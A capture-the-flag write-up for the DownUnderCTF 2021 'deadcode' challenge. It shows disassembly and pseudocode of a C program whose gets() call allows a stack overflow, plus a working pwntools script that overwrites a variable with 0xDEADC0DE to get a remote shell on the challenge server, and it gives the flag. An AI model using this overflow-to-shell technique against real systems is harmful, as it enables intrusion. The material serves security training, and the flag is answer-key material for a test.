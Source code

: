 # CHALLENGE NAME: deadcode

## DESCRIPTION

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

## ATTACHMENT

`nc pwn-2021.duc.tf 31916`

[deadcode](https://play.duc.tf/files/e2160dca2cee7fa1fd1df1a727298cfa/deadcode?token=eyJ1c2VyX2lkIjoyNDM3LCJ0ZWFtX2lkIjoxNDA4LCJmaWxlX2lkIjozMX0.YVHO3A.piCDy3mKtwFP0JCZej5NUTvtxJg)

## DECOMPILED CODE

I used IDA pro to decompiled code.

### Assembly code
```assembly
.text:0000000000401195 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0000000000401195                 public main
.text:0000000000401195 main            proc near               ; DATA XREF: _start+1D↑o
.text:0000000000401195
.text:0000000000401195 var_20          = byte ptr -20h
.text:0000000000401195 var_8           = qword ptr -8
.text:0000000000401195
.text:0000000000401195 ; __unwind {
.text:0000000000401195                 push    rbp
.text:0000000000401196                 mov     rbp, rsp
.text:0000000000401199                 sub     rsp, 20h
.text:000000000040119D                 mov     [rbp+var_8], 0
.text:00000000004011A5                 mov     eax, 0
.text:00000000004011AA                 call    buffer_init
.text:00000000004011AF                 lea     rdi, s          ; "\nI'm developing this new application i"...
.text:00000000004011B6                 call    _puts
.text:00000000004011BB                 lea     rdi, aWhatFeaturesWo ; "\nWhat features would you like to see i"...
.text:00000000004011C2                 call    _puts
.text:00000000004011C7                 lea     rax, [rbp+var_20]
.text:00000000004011CB                 mov     rdi, rax
.text:00000000004011CE                 mov     eax, 0
.text:00000000004011D3                 call    _gets
.text:00000000004011D8                 mov     eax, 0DEADC0DEh
.text:00000000004011DD                 cmp     [rbp+var_8], rax
.text:00000000004011E1                 jnz     short loc_401200
.text:00000000004011E3                 lea     rdi, aMaybeThisCodeI ; "\n\nMaybe this code isn't so dead..."
.text:00000000004011EA                 call    _puts
.text:00000000004011EF                 lea     rdi, command    ; "/bin/sh"
.text:00000000004011F6                 mov     eax, 0
.text:00000000004011FB                 call    _system
.text:0000000000401200
.text:0000000000401200 loc_401200:                             ; CODE XREF: main+4C↑j
.text:0000000000401200                 mov     eax, 0
.text:0000000000401205                 leave
.text:0000000000401206                 retn
.text:0000000000401206 ; } // starts at 401195
```

### Pseudocode

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[24]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = 0LL;
  buffer_init(argc, argv, envp);
  puts("\nI'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.");
  puts("\nWhat features would you like to see in my app?");
  gets(v4);
  if ( v5 == 3735929054LL )
  {
    puts("\n\nMaybe this code isn't so dead...");
    system("/bin/sh");
  }
  return 0;
}
```
## METHODOLOGY

Look at the code, I've seen the `system("/bin/sh")` command that we can manipulate and find flags. It will be executed when `v5` = `3735929054`. However, at the beginning of the code, `v5` has been set to `0`. So this will not be executed when the program is running. But, before the code of the `if`, I see the function `gets(v4)`. This function does not manage the input length. So we can take advantage of this function to override the value of `v5` in stack. 

So, this is `buffer overflow`.

## EXPLOIT

We can see in the decompiled code.
```
char v4[24]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v5; // [rsp+18h] [rbp-8h]
```
Based on that, we can draw the stack as follows

![image](https://user-images.githubusercontent.com/84057292/134934822-cd774571-d30c-4b69-86df-596762c65402.png)

### Exploit code

```python
from pwn import *

r = remote('pwn-2021.duc.tf', 31916)

print(r.recvline())
print(r.recv())

payload = '0' * 24
payload += "\xDE\xC0\xAD\xDE"
r.sendline(payload)

print(r.recv())
r.interactive()
```

### Exploit

![image](https://user-images.githubusercontent.com/84057292/134930295-adb54661-e340-4c78-abb6-b9a0e5f21b64.png)

So, I got the flag

## FLAG

`DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}`

